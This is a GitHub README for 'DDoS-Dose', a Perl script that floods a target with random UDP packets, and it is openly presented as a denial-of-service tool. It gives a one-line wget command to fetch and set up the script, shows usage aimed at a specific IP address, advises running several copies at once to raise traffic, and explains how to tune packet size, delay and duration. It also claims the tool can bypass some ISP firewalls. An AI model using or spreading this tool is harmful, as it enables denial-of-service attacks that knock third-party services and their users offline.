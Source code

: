 # Script for DDoS-Dose ! {Under Development}

## Features

- Generate Random UDP Traffic
- To Random Port
- Require HPC (High Performance Computing) Server
- Can bypass some ISP Firewalls
- Language: Perl

## Installation

One Line Setup for Debian Based distro ~ Ubuntu, Debian

```bash
  wget https://raw.githubusercontent.com/cyberceros/ddos-dose/main/Layer4/UDP/random-udp-string%20%7C%20ID%3AA2/random-udp-string.pl && chmod 777 * && apt update -y && apt install perl -y
```

## Usage

```
perl random-udp-string.pl 162.241.27.65
```
```
YOU CAN RUN IT MULTIPLE TIME TO INCREASE TRAFFIC LIKE - Depends on CPU/RAM
perl random-udp-string.pl 162.241.27.65 & perl random-udp-string.pl 162.241.27.65 & perl random-udp-string.pl 162.241.27.65
---> Multithreading Causing Issue
```
```
- This script pre-configured to send traffic to random port, (Line69) Can be Changed!
- This script pre-configured to send traffic with some delay between packet, (Line74) Can be Changed!
- This script pre-configured to send random packet size, (Line68), Can be changed!
- Can adjust time by "timeout 30" command or check (Line58)
```

## Related

want to pass the Target IP, Packet Size, Packet Count in Command Line

[Click Here for that Script](https://github.com/cyberceros/)

## Authors

- [@cyberceros](https://www.github.com/cyberceros)

## Feedback

If you have any feedback, please reach out to us at n@dultr.in






